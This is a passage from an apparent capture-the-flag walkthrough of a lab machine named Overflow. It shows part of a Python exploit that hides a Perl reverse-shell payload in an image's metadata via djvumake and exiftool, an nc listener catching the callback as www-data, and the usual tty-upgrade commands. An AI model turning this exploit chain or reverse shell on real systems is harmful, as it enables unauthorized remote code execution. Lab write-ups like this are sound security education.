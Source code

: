     payload = payload + b"'))};\")"    
        
        
    payload_file = open('payload', 'w')    
    payload_file.write(payload.decode('utf-8'))    
    payload_file.close()    
        
        
    subprocess.run(['bzz', 'payload', 'payload.bzz'])    
    subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])    
    subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'image.jpg'])



It builds a payload that looks like a Perl reverse shell, and then uses
`bzz`, `djvumake`, and `exiftool` to add it to the image, `image.jpg`.
I'll update the ip and port to 10.10.14.6 and 443 and run it:



    oxdf@hacky$ python exploit.py 
        1 image files updated



I'll start `nc` and upload that image to the site, and a shell connects
back:



    oxdf@hacky$ nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.11.119.
    Ncat: Connection from 10.10.11.119:51622.
    /bin/sh: 0: can't access tty; job control turned off
    $ 



I'll upgrade my shell using `script`:



    $ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@overflow:~/devbuild-job/home/profile$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@overflow:~/devbuild-job/home/profile$



## Shell as developer

### Enumeration
